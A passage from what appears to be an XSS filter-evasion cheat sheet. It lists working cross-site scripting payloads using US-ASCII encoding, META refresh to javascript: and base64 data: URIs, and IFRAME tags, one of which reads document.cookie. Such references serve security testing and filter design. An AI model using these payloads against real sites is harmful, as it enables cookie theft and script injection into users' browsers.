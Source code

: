 US-ASCII encoding (found by Kurt Huwig).This uses malformed ASCII encoding with 7 bits instead of 8. This XSS may bypass many content filters but only works if the host transmits in US-ASCII encoding, or if you set the encoding yourself. This is more useful against web application firewall cross site scripting evasion than it is server side filter evasion. Apache Tomcat is the only known server that transmits in US-ASCII encoding.

~~~
¼script¾alert(¢XSS¢)¼/script¾
~~~



### META

The odd thing about meta refresh is that it doesn't send a referrer in the header - so it can be used for certain types of attacks where you need to get rid of referring URLs: 

~~~
<META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:alert('XSS');">
~~~


#### META using data

Directive URL scheme. This is nice because it also doesn't have anything visibly that has the word SCRIPT or the JavaScript directive in it, because it utilizes base64 encoding. 

~~~
<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">
~~~

`PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K` base64 decode: `<script>alert('XSS')</script>`

#### META with additional URL parameter

If the target website attempts to see if the URL contains "http://" at the beginning you can evade it with the following technique (Submitted by Moritz Naumann):

~~~
<META HTTP-EQUIV="refresh" CONTENT="0; URL=http://;URL=javascript:alert('XSS');">
~~~



### IFRAME

If iframes are allowed there are a lot of other XSS problems as well:

~~~
<IFRAME SRC="javascript:alert('XSS');"></IFRAME>
~~~

#### IFRAME Event based

IFrames and most other elements can use event based mayhem like the following... (Submitted by: David Cross)

~~~
<IFRAME SRC=# onmouseover="alert(document.cookie)"></IFRAME>
~~~
